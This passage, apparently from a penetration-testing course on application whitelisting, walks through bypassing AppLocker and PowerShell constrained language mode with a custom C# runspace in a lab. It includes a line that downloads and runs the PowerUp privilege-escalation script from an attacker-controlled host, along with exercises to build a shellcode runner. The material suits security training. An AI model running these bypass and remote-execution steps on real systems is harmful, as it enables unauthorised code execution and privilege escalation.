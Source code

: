 AppLocker blocks our C# executable because we executed it from a non-whitelisted directory. So let's copy the executable into a whitelisted directory to verify our constrained language mode bypass:

```
C:\Users\student> copy Bypass.exe C:\Windows\Tasks
C:\Users\student> C:\Windows\Tasks\Bypass.exe 
C:\Users\student> type C:\Tools\test.txt
FullLanguage
```

> Listing 16 - Constrained language mode is bypassed

Our PowerShell script executed without restrictions inside the custom runspace, and our code achieved the desired goal. Good.

Additionally, we did not use PowerShell.exe, which means that even if an AppLocker deny rule was configured to block its execution, we could still use this method to run arbitrary PowerShell scripts.

As an expanded use case, let's leverage the custom runspace to fetch and execute the _PowerUp_[10](https://portal.offsec.com/courses/pen-300-9502/learning/application-whitelisting-14700/application-whitelisting-15088#fn-local_id_358-10) PowerShell privilege escalation enumeration script. We'll download the script and copy it to our Kali machine's Apache webserver, and update the C# application to invoke inside the custom runspace:

```
String cmd = "(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/PowerUp.ps1') | IEX; Invoke-AllChecks | Out-File -FilePath C:\\Tools\\test.txt";
```

> Listing 17 - Script to fetch and execute PowerUp in a custom runspace

Once the C# project has been modified with the new script and recompiled, we can execute the C# executable and enumerate possible avenues of privilege escalation:

```
C:\Users\student> C:\Windows\Tasks\Bypass.exe
C:\Users\student> type C:\Tools\test.txt

[*] Running Invoke-AllChecks


[*] Checking if user is in a local group with administrative privileges...


[*] Checking for unquoted service paths...
...
```

> Listing 18 - Executing PowerUp while bypassing constrained language mode

The power of custom runspaces allows us to reuse all our previous PowerShell-based tradecraft. However, we are still hindered by AppLocker's C# executable rules. In the next section, we'll solve this problem by using a technique called living off the land, in which we misuse a native Windows application.

**Exercises**

1. Recreate the application shown in this section to set up a custom runspace and execute arbitrary PowerShell code without limitations.
2. Modify the C# code to implement our PowerShell shellcode runner.
3. Create an AppLocker deny rule for C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe and verify that this does not hinder our custom runspace.
